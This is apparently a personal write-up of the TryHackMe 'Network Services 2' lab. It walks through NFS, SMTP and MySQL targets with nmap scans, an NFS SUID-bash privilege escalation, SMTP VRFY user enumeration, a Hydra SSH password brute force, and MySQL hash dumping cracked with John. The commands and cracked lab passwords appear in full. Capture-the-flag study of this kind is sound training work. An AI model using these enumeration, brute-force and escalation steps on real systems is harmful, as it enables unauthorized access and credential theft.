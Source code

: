 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-1.png)

### NFS

NFS stands for "Network File System" and allows a system to share directories and files with others over a network. 

```text

tarting Nmap 7.80 ( https://nmap.org ) at 2020-11-24 07:27 EST
Nmap scan report for 10.10.162.15
Host is up (0.072s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
2049/tcp  open  nfs
34083/tcp open  unknown
55991/tcp open  unknown
58905/tcp open  unknown
59485/tcp open  unknown
```

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-2.png)
I copied the id_rsa file to my computer as it coulcd come handy.

On NFS is enabled root squashing  and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. To escalate privilges:
- go to home directory of the cappucino user
- download the executable, which is an Ubuntu Server 18.04 bash executable. Change it's permissions to be executable and suid and also change the ownership to root.
- ssh into the machine and execute the binary

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-3.png)

### SMTP

I could explain this protocol, but i found this website which describe in more details what is SMTP and what does.

```text
# Nmap 7.80 scan initiated Tue Nov 24 05:34:08 2020 as: nmap -sS -T 4 -oN smtp_scan1.txt 10.10.2.43
Nmap scan report for 10.10.2.43
Host is up (0.062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp

# Nmap done at Tue Nov 24 05:34:09 2020 -- 1 IP address (1 host up) scanned in 1.31 seconds
 ```
 I used metasploit to get more information about this service, but it could have bee done also manually as easy.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-4.png)

I used this module to enumerate the users.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-5.png)

From the  results, it seems it found the user administrator.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-6.png)

I bruteforced it's password, found it, then ssh'ed into the service and read the flag.

```text
hydra -l administrator -P /usr/share/wordlists/rockyou.txt  10.10.2.43 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-24 05:55:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.2.43:22/
[22][ssh] host: 10.10.2.43   login: administrator   password: alejandro
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-24 05:56:38
```
I also tried to do almost the same thing manually. The difference is in the users enumeration which i could have done it using a script and trying every username in the users file. Upon connecting i noticed the banner which states the server. I tried 2 usernames and took a good look at the difference between the server's response to a unexisting user and an existing one.

```text
telnet 10.10.2.43 25
Trying 10.10.2.43...
Connected to 10.10.2.43.
Escape character is '^]'.
220 polosmtp.home ESMTP Postfix (Ubuntu)
vfy admin
502 5.5.2 Error: command not recognized
vrfy admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
vrfy administrator
252 2.0.0 administrator
```

### MySQL

MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL)
```text
# Nmap 7.80 scan initiated Tue Nov 24 04:17:22 2020 as: nmap -sS -T4 -oN mysql_nmap.txt 10.10.148.57
Nmap scan report for 10.10.148.57
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql

# Nmap done at Tue Nov 24 04:17:24 2020 -- 1 IP address (1 host up) scanned in 1.91 seconds
```

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-7.png)

I set the password, rhosts and username, the run it.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-8.png)

I listed the databases.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-9.png)

Then exploited it.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-10.png)

I dumped all the hashes.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Network%20services%202/images/137-11.png)

```text
john --wordlist=/usr/share/wordlists/rockyou.txt mysql_hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
doggie           (carl)
1g 0:00:00:00 DONE (2020-11-24 04:37) 5.882g/s 9788p/s 9788c/s 9788C/s helpme..athena
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Manually i could have done:
1. mysql -h 10.10.148.57 -u root -p
2. use mysql;
3. select user, authentication_string from user;
